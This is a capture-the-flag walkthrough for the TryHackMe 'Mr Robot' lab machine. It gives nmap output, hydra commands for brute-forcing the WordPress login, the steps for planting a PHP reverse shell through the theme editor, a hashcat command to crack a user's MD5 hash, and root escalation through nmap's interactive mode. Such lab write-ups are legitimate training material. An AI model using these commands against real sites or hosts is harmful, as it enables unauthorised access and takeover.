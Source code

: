 [Mr Robot CTF](https://tryhackme.com/room/mrrobot)
===============

Way better guide: https://medium.com/bugbountywriteup/tryhackme-mr-robot-ctf-writeup-ff0b3be5bd18

Tasks
----------------------

1. [ Connect to our network ](#connect)
2. [ Hack the machine ](#hack)

<a name="connect"></a>
## 1. Connect to our network

```
IP=XXX
```

<a name="hack"></a>
## 2. Hack the machine

#Recon
nmap results:

```
# Nmap 7.80 scan initiated Sun Jul 19 11:15:39 2020 as: nmap -sC -sV -oN nmap/output.txt -vvv XXX
Nmap scan report for XXX
Host is up, received syn-ack (0.024s latency).
Scanned at 2020-07-19 11:15:39 CEST for 42s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT    STATE  SERVICE  REASON       VERSION
22/tcp  closed ssh      conn-refused
80/tcp  open   http     syn-ack      Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http syn-ack      Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16 3b19 87c3 42ad 6634 c1c9 d0aa fb97
| SHA-1: ef0c 5fa5 931a 09a5 687c a2c2 80c4 c792 07ce f71b
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQCgSfELirADCzANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwOTE2MTA0NTAzWhcNMjUwOTEzMTA0NTAzWjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANlxG/38e8Dy/mxwZzBboYF64tu1n8c2zsWOw8FFU0azQFxv7RPKcGwt
| sALkdAMkNcWS7J930xGamdCZPdoRY4hhfesLIshZxpyk6NoYBkmtx+GfwrrLh6mU
| yvsyno29GAlqYWfffzXRoibdDtGTn9NeMqXobVTTKTaR0BGspOS5AgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEASfG0dH3x4/XaN6IWwaKo8XeRStjYTy/uBJEBUERlP17X
| 1TooZOYbvgFAqK8DPOl7EkzASVeu0mS5orfptWjOZ/UWVZujSNj7uu7QR4vbNERx
| ncZrydr7FklpkIN5Bj8SYc94JI9GsrHip4mpbystXkxncoOVESjRBES/iatbkl0=
|_-----END CERTIFICATE-----

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 19 11:16:21 2020 -- 1 IP address (1 host up) scanned in 42.36 seconds
```

Running gobuster over the website reveals a wordpress blog with a login page at `/wp-login.php` and the `/robots.txt` reveals the location of the first key at `/key--of-3.txt` and the location of a wordlist at `/fsocity.dic` (mind the typo?).

The wordlist can be sorted wth `sort` and duplicates can be removed with `uniq`. 

# Access WordPress

We need to bruteforce the login with the wordlist. `WPscan` looks like a nice tool for this job but I'm getting prompted to sign up and I don't want to. With hydra I managed to use the wordlist to first check for a good username:

`hydra -V -L fsocity.dic -p 123 $IP http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
`

`Elliot` was first found, now trying to get his password with the same wordlist:

`hydra -V -l Elliot -P wordlist.dic $IP http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=Location' -I`

Wordpress credentials:
`
Elliot
ER28-0652
`

# Access system

Log into WordPress and edit one of the archive.php or 404.php pages in the editor (`Appearance -> Editor`). Here paste a php reverse shell, listen in (`nc -lnv 9000`) and activate it by going to the URL:

`http://10.10.162.7/wp-content/themes/twentyfifteen/404.php`

We are greeted with an unstable shell as usual: `import pty; pty.spawn("/bin/bash")` for a better experience

# PrivEsc

Once in there is a key-2-of-3.txt but we lack permissions. There is a password hash (MD5)for a user called robot.

With hashcat it is quickly found, I dont know why I didnt use the fsociety wordlist here but the password is probably also in that one.

`sudo hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/Leaked-Databases/*`

`su robot` to switch user

# Root

`find / -perm /4000 -print 2>dev/null`

or

`sudo -l`

to find permissions of the robot user. 

Apparently `nmap` is here the good one: 

`nmap --interactive`

`!sh` to get root privileges

